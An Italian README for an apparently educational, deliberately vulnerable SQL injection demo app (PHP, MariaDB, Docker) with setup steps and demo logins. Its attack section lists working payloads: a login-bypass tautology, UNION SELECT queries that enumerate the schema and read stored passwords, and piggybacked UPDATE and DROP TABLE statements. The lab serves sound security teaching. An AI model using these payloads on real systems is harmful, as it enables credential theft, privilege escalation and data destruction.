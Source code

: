 # SQL Injection Demo App (PHP + MariaDB + Docker)

Questa applicazione è stata creata per scopi didattici e dimostra le vulnerabilità SQL Injection più comuni in un contesto web.

---

## Funzionalità

- Login vulnerabile (tautologia)
- Dashboard con elenco parziale degli utenti
- Form di ricerca email vulnerabile a:
  - UNION SELECT
  - Esfiltrazione dati da `information_schema`
  - Piggybacking (`DROP`, `UPDATE`)
- Style CSS semplice incluso

---

## Tecnologie

- PHP (senza framework)
- MariaDB 10.5
- Docker & Docker Compose

---

## Avvio dell'applicazione

1. Clona il progetto

```bash
git clone https://github.com/tuo-utente/sql-injection-demo.git
cd sql-injection-demo
```

2. Avvia i container

```bash
docker-compose up --build
```

L'app sarà disponibile su `http://localhost:8080/login.html`

---

## Login di esempio

Tautologia:
```
Username: ' OR 1=1 #
Password: qualsiasi
```

Credenziali reali:
```
Username: admin
Password: admin123
```

---

## Esecuzione di attacchi SQLi

Tautologia:
```
' OR 1=1 #
```

Scoprire nome database:
```
' UNION SELECT 1, DATABASE(), 'x' #
```

Elencare tutti gli schemi:
```
' UNION SELECT 1, schema_name, 'x' FROM information_schema.schemata #
```

Elencare tabelle:
```
' UNION SELECT 1, table_name, 'x' FROM information_schema.tables WHERE table_schema='sqli_demo' #
```

Elencare colonne:
```
' UNION SELECT 1, column_name, 'x' FROM information_schema.columns WHERE table_name='utenti' AND table_schema='sqli_demo' #
```

Leggere credenziali:
```
' UNION SELECT id, username, password FROM utenti #
```

Aggiornare un utente:
```
' ; UPDATE utenti SET ruolo = 'admin' WHERE username = 'user1'; --
```

Cancellare la tabella:
```
' ; DROP TABLE utenti; --
```

---

## Ripristino del database

Se la tabella o il database vengono eliminati durante i test, puoi ricostruire tutto con:

```bash
docker-compose down -v
docker-compose up --build
```

---

## Crediti

Progetto sviluppato per scopi didattici. **Non usare in ambienti di produzione.**